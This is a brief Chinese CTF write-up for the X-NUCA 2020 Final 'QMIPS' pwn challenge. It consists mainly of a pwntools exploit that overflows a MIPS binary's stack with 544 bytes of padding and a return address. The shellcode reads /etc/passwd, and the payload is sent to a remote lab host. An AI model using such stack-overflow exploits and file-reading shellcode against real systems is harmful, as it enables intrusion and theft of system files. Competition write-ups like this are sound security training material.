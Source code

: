 ```yaml
---
title: X-NUCA 2020 Final 团队赛：QMIPS
date: 2020-12-11 00:00:00
categories:
- CTF/Pwn
tags: X-NUCA XNUCA
---
```


> 更新中...又是瞎发包测出来的栈溢出，给出的MIPS程序IDA7.5居然没法分析：

附件：[qmips.zip](https://xuanxuanblingbling.github.io/assets/attachment/xnuca/qmips.zip)

```python
from pwn import *
context(arch='mips',endian='big')

shellcode = asm(shellcraft.mips.linux.cat("/etc/passwd",7))
payload = shellcode.ljust(544,'a') + p32(0x418290)
io = remote("10.10.10.135",8000)
io.send(payload)
io.interactive()
```